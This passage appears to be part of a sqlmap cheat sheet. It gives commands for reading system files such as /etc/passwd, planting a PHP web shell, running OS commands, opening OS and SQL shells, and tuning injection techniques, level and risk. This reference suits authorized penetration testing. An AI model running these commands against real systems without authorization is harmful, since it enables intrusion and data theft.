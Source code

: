 ## Advanced Exploitation

### File Operations
```bash
# Read system files
sqlmap -r request.txt --file-read="/etc/passwd"
sqlmap -r request.txt --file-read="C:\Windows\System32\drivers\etc\hosts"

# Write files to system
sqlmap -r request.txt --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

### Command Execution
```bash
# Execute OS commands
sqlmap -r request.txt --os-cmd="whoami"
sqlmap -r request.txt --os-cmd="id"

# Get OS shell
sqlmap -r request.txt --os-shell

# Get SQL shell
sqlmap -r request.txt --sql-shell
```

## Detection & Testing Options

### Injection Techniques
```bash
# Specify techniques (B=Boolean, E=Error, U=Union, S=Stacked, T=Time, Q=Inline)
sqlmap -r request.txt --technique=B     # Boolean-based blind only
sqlmap -r request.txt --technique=T     # Time-based blind only
sqlmap -r request.txt --technique=U     # Union-based only
sqlmap -r request.txt --technique=BEUST # Multiple techniques
```

### Testing Levels & Risk
```bash
# Set testing level (1-5, default: 1)
sqlmap -r request.txt --level=3
sqlmap -r request.txt --level=5

# Set risk level (1-3, default: 1)
sqlmap -r request.txt --risk=2
sqlmap -r request.txt --risk=3

# Combine level and risk
sqlmap -r request.txt --level=5 --risk=3
```
